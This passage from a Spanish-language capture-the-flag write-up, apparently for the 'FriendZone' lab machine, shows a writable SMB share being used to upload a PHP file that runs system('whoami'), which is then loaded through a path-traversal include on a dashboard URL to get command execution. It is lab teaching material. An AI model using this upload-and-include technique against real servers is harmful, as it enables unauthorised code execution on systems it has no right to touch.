 ## Vulnerability Assessment {-}


### Subiendo ficheros por smb {-}

Cuando hemos mirado los registros compartidos a nivel de red con smbmap, hemos constatado que teniamos derechos de lectura
y de escritura al registro Development. Y esta enumeracion nos a monstrado que el registro Files esta bindeada al directorio
`/etc/Files`. Esto no hace pensar que si subimos ficheros al registro `Development`, puede que sea finalmente bindeada al directorio 
`/etc/Development`. 

1. Creamos un fichero php de prueba

    ```php
    <?php
        echo "Esto es una prueba...";
        system("whoami");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put test.php
    ```

1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/test
    ```

Esto nos muestra que podemos ejecutar commandos a nivel de systema.